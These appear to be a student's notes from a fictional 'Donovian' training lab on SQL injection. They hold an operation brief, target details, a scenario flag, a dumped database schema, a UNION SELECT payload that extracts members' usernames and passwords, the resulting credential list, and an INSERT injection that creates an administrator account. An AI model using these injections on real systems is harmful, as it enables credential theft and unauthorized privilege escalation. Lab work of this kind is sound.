 # Donovian Database Exploitation (DWDBE)
XX Dec 2026
Start Time: 1300
Duration: 4 hours

Type of Operation: Cyberspace Exploitation (C-E)

Objective: Maneuver through network, identify and gather intelligence from the Donovian Logistics Agency database.

Tools/Techniques: All connections will be established through web browser to donovian-nla. SSH masquerade to Donovian_Webserver with provide credentials. Ports in use will be dependent on target location and are subject to change. Web exploitation techniques are limited to SQLi injections. Network scanning tools/technique usage is at the discretion of student.

Scenario Credentials: FLAG = 5QL1nj3ct5t@rt0F@ct1v1ty

Prior Approvals: SQLi injects through web browser. Creation of database administrator account if directed to. Any connection to donovian-nla other than HTTP/HTTPs is NOT approved.

## Scheme of Maneuver:
>Jump Box
->T1:10.100.28.48

## Target Section:

T1
Hostname: donovian-nla
IP: 10.100.28.48
OS: unknown
Creds:unknown
Last Known SSH Port: unknown
Last Known HTTP Port: 80
PSP: Unknown
Malware: Unknown
Action: Conduct approved SQLi Exploitation techniques to collect intelligence.

categories	id	3.00
categories	name	3.00
categories	description	3.00

members	id	3.00
members	username	3.00
members	password	3.00
members	first_name	3.00
members	last_name	3.00
members	email	3.00
members	permission	3.00

orderlines	id	3.00
orderlines	quantity	3.00
orderlines	product	3.00
orderlines	order	3.00

orders	id	3.00
orders	date	3.00
orders	member	3.00

payments	id	3.00
payments	creditcard_number	3.00
payments	date	3.00
payments	order	3.00

permissions	id	3.00
permissions	level	3.00
permissions	name	3.00
permissions	description	3.00

products	id	3.00union select username,password,permission from members#
products	name	3.00
products	description	3.00
products	price	3.00
products	qty_left	3.00
products	category	3.00

share4	id	3.00
share4	comment	3.00
share4	mime	3.00
share4	data	3.00


product=1&Submit=Submit
## username, password, permission
Boss	CdOETQHZoOD0hPvReTMr	1.00
Maverick	turn&burn	3.00
phreak	pwd	4.00
Susan	flowers99	3.00
TW	imAPlaya	2.00
1-2-3-4	sayULuvM3	2.00
rich_kid	1M$	2.00
p0pStar	thrilla	2.00
Joe	vato	2.00
	flag:	4.00
hacker	password	3.00
	flag:	3.00

INSERT INTO members (first_name, last_name, username, password, email, permission) VALUES ('Hacker', 'hack4', 'hacker4', '123', '123@123', 1);#', '123', '123@123', 3) 
> hacker2', '123', '123@123', 1);#
